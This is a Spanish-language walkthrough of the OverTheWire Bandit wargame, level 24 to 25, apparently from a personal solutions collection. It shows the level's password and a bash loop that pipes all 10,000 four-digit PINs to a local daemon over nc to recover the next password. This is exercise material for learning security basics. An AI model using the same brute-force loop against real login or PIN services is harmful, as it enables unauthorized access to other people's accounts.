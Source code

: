 ## Objetivo
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.  
You do not need to create new connections each time
## Datos de Acceso al Nivel
bandit24
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
## Solución
```bash
bandit24@bandit:~$ whoami
bandit24
bandit24@bandit:~$ nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 1234
Wrong! Please enter the correct current password and pincode. Try again.
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 4567
Wrong! Please enter the correct current password and pincode. Try again.
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 9999
Wrong! Please enter the correct current password and pincode. Try again.
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 1357
Wrong! Please enter the correct current password and pincode. Try again.
^C

bandit24@bandit:~$ for i in {0000..9999}; do echo gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i ; done | nc localhost 30002 | grep -v Wrong
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is iCi86ttT4KSNe1armKiwbQNmB3YJP3q4

bandit24@bandit:~$
```
## Notas Adicionales
grep -v mensaje - Filtra todas las líneas que no contengan el mensaje
## Referencias
